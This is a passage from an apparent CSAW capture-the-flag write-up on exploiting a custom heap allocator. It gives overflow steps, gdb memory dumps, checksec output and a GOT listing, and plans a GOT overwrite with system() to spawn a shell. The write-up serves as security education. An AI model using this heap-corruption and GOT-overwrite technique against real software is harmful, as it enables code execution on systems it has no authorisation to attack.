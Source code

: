 With some quick experimentation, it looks like the program now thinks that the second block of the 64 byte heap is now the head of the 128 byte heap. Even better, after freeing all the blocks, the next chunk pointer of the 64 byte table points 160 bytes away, which is within the "data" segment of the first chunk of the "128 byte table" (in quotes because this first chunk now resides in the 64 byte table). If we overwrite the header for the next to be allocated 64 byte chunk, we can point it anywhere in memory. We should even be able to read and write that location. The cherry on top is that our input is read via the "read" libc function. We can therefore write normally bad characters like '\x00' in without issue.
```
gdb-peda$ x/64x 0x00007ffff7ff4000
0x7ffff7ff4000:	0x0000000000000040	0x00007ffff7ff40a0
0x7ffff7ff4010:	0x4141414141414141	0x4141414141414141
0x7ffff7ff4020:	0x4141414141414141	0x4141414141414141
0x7ffff7ff4030:	0x4141414141414141	0x4141414141414141
0x7ffff7ff4040:	0x4141414141414141	0x4141414141414141
0x7ffff7ff4050:	0x0000000000000080	0x00007ffff7ff3000
0x7ffff7ff4060:	0x0000000000000000	0x0000000000000000
0x7ffff7ff4070:	0x0000000000000000	0x0000000000000000
0x7ffff7ff4080:	0x0000000000000000	0x0000000000000000
0x7ffff7ff4090:	0x0000000000000000	0x0000000000000000
0x7ffff7ff40a0:	0x0000000000000040	0x00007ffff7ff40f0
```
So here's the process so far:
1. Create block of size 64
2. Write 64 'A's + 1 '\x80'
3. Create block of size 64
4. Delete block
5. Create block of size 128 (which now resides in the heap meant for 64 byte chunks)
6. Write 128 'B"s
7. Create block of size 64
8. Create block of size 64

On that last block create, the program crashes trying to use 0x4242424242424242 as a memory address for the next chunk. Boom!

Ok, the goal now is to abuse the next chunk pointer to give us a write-what-where
What security mechanisms are we going to have to deal with?
```
gdb-peda$ checksec 
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
Since we get a stack pointer at the start of the program, when we test against pwn.chal.csaw.io:5223 we can quickly see that ASLR is on as well. A GOT overwrite seems quite viable, especially since we can write 40 bytes with no concern over bad characters.

Goal: Find a good function to overwrite with the address of system(), then we can get the program to call that function naturally and it'll end up calling something good like system("/bin/sh").

What does the GOT look like?
```
                     printf@GOT:
0000000000607018         dq         0x0000000000608000                          ; DATA XREF=j_printf
                     puts@GOT:
0000000000607020         dq         0x0000000000608018                          ; DATA XREF=j_puts
                     _ZdlPv@GOT:        // operator delete(void*)
0000000000607028         dq         0x0000000000608020                          ; DATA XREF=j__ZdlPv
                     exit@GOT:
0000000000607030         dq         0x0000000000608028                          ; DATA XREF=j_exit
                     setvbuf@GOT:
```